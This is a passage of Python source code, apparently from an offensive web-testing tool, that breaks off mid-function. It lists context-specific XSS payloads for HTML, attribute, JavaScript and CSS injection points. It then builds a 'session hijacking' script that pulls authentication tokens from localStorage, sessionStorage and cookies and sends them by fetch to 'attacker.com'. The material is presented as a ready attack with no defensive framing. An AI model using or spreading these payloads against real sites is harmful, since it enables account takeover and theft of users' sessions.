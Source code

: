     def test_xss_execution(self, payload):
        """Simple XSS execution test"""
        # This is a placeholder - in real testing, you'd visit the page
        # where the stored XSS would execute
        return 'script' in payload.lower() or 'onerror' in payload.lower()
    
    def generate_advanced_payloads(self, context='html'):
        """Generate context-specific XSS payloads"""
        payloads = {
            'html': [
                "<script>alert('HTML Context XSS')</script>",
                "<img src=x onerror=alert('HTML Context XSS')>",
                "<svg onload=alert('HTML Context XSS')>"
            ],
            'attribute': [
                "' onmouseover='alert(\"Attribute XSS\")'",
                "\" onload=\"alert('Attribute XSS')\"",
                "javascript:alert('Attribute XSS')"
            ],
            'javascript': [
                "';alert('JS Context XSS');//",
                "\";alert('JS Context XSS');//",
                "alert('JS Context XSS')"
            ],
            'css': [
                "expression(alert('CSS XSS'))",
                "url('javascript:alert(\"CSS XSS\")')",
                "behavior:url(javascript:alert('CSS XSS'))"
            ]
        }
        
        return payloads.get(context, payloads['html'])
    
    def exploit_xss_for_session_hijacking(self, vulnerable_endpoint):
        """Create XSS payload for session hijacking"""
        print(f"\n[+] Creating session hijacking payload...")
        
        # Session hijacking payload
        hijack_payload = """
        <script>
        (function() {
            // Extract authentication token
            const token = localStorage.getItem('token') || 
                         sessionStorage.getItem('token') ||
                         document.cookie.match(/token=([^;]+)/)?.[1];
            
            if (token) {
                // Exfiltrate token to attacker server
                fetch('http://attacker.com/steal-session', {
                    method: 'POST',
                    headers: {'Content-Type': 'application/json'},
                    body: JSON.stringify({
                        token: token,
                        url: window.location.href,
                        userAgent: navigator.userAgent,
                        timestamp: Date.now()
                    })
                });
                